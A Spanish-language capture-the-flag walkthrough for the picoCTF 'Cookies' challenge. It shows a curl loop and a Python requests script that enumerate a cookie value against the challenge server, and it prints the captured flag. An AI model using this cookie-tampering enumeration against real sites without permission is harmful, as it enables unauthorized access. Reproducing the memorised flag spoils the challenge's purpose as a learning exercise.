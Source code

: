 1. Ingresamos a la página
2. Cookie - Editor
3. Modificamos el valor de name. Si ingresamos un dato no valido, se genera una cookie con valor de -1. Si ingresamos un dato valido, se genera una cookie con valor de 0, dependiendo del valor de la cookie, se muestras diferentes frames en la página. Este proceso de puede automatizar
4. Validamos nuestra entrada con un dato valido o esperado
5. Abrir consola
6. Ingresar comando y modificar al valor de name en la cookie
	```
	curl http://mercury.picoctf.net:64944/check -H "Cookie: name=0"
	```
7. Usamos un for
	```
	for i in {0..20}; do curl -s http://mercury.picoctf.net:64944/check -H "Cookie: name=$i"; done | grep -oE "picoCTF{.*?}"
	```
8. Encontramos la bandera
 ```
picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
```



## Por burpsuite



## Exploit en Python

1. Abrimos consola en Python
	```
	nano exp.py
	```
2. Escribir programa
```python
import requests

url = "http://mercury.picoctf.net:64944/check"

for i in range(21):
        cookies = {'name':'{}'.format(i)}
        r = requests.get(url,cookies=cookies)
        if 'picoCTF' in r.text:
                print(r.text)
```
3. Ejecutamos el programa
	```
	python epx.py
	```
4. Encontramos la bandera
```html
output:
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

```